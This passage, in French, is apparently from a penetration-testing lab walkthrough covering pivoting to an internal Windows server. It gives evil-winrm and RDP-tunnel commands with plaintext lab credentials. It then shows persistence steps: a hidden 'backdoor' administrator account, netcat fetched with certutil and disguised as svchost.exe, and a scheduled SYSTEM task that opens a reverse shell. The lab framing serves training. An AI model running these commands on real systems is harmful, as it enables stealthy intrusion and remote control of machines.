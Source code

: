    Si cette tentative échoue, essayez d'autres méthodes d'accès :

   ```bash
   # Tentative avec WinRM
   proxychains evil-winrm -i 10.0.0.200 -u admin -p 'AdminPass2023!'
   ```

5. **Configuration d'un tunnel pour RDP**

   Pour une interface graphique, configurez un tunnel pour RDP :

   ```bash
   # Sur Kali
   ssh -L 13389:10.0.0.200:3389 devops@192.168.56.102
   
   # Dans un autre terminal
   xfreerdp /v:localhost:13389 /u:admin /p:AdminPass2023!
   ```

6. **Établissement d'une persistance sur le serveur interne**

   Une fois connecté au serveur interne, établissez une persistance :

   ```powershell
   # Créer un utilisateur local caché
   net user backdoor P@ssw0rd456! /add
   net localgroup Administrators backdoor /add
   
   # Masquer l'utilisateur
   reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v backdoor /t REG_DWORD /d 0 /f
   
   # Configurer un reverse shell persistant
   mkdir C:\ProgramData\Microsoft\Windows\SystemData
   
   # Télécharger netcat
   certutil -urlcache -split -f "http://192.168.56.10/nc64.exe" C:\ProgramData\Microsoft\Windows\SystemData\svchost.exe
   
   # Créer une tâche planifiée
   schtasks /create /tn "\Microsoft\Windows\Multimedia\SystemAudioTask" /tr "C:\ProgramData\Microsoft\Windows\SystemData\svchost.exe 10.0.0.102 6666 -e cmd.exe" /sc daily /st 20:00 /ru "SYSTEM" /f
   ```

### Conclusion du lab et nettoyage

1. **Vérification des objectifs**

   Assurez-vous d'avoir accompli tous les objectifs du lab :
   - Énumération de l'environnement Windows
   - Extraction de credentials
   - Élévation de privilèges sur Windows et Linux
   - Établissement de mécanismes de persistance
   - Configuration d'un pivot pour accéder au réseau interne

2. **Documentation des résultats**
